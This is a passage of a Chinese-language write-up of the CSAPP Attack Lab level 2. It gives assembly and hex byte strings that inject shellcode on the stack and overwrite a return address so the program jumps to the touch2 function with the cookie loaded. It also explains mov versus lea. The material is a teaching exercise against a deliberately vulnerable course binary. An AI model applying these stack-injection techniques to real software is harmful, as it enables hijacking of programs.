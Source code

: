 因为是AT&T语法，所以可以直接用`gcc -c`编译出未链接文件，然后我们objdump一下就可以看到对应的shellcode了。

`ret`命令相当于一个`pop rip`，将`rip`指向了`0x4017ec`，即调用了`touch2`。


但是直接写shellcode得能执行啊，怎么让它执行？把rbp的值写成shellcode在栈上的地址。

这里又有一个小细节：**字符串在栈里面通过push写入的话要翻转顺序，而shellcode需要正序写入。**前面要写hello world的shellcode，字符串是反向写入的，因为我们读字符串自然是从低地址到高地址的。而shellcode就直接写就完事了。

所以我们需要获取栈的地址。那我们用gdb调一调就可以找到字符串的地址了：

{% qnimg CSAPP-Attack-Lab-Writeup/level2.png %}

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

{% qnimg CSAPP-Attack-Lab-Writeup/success2.png %}

#### 从程序中真正获取cookie的值

可以用汇编来获取地址的值，比如这样写：

```
movq $0x006044e4, %rdi
movq (%rdi), %rdi
pushq $0x004017ec
retq
```

这样就算cookie是个随机数，也能跳转，比较普适。

```
48 c7 c7 e4 44 60 00 48
8b 3f 68 ec 17 40 00 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

{% qnimg CSAPP-Attack-Lab-Writeup/success22.png %}

Jan 17 upd：第二种shellcode的汇编也可以这样写：

```
movq 0x006044e4, %rdi
pushq $0x004017ec
retq
```

mov和lea的区别，就是mov会做一次dereference，而lea只进行计算。

只要mov的src不是一个immediate（最前面有一个$号）而是一个地址，默认都会把src这个地址dereference之后的值赋给dest。而lea就只是单纯计算之后把结果赋给dest。
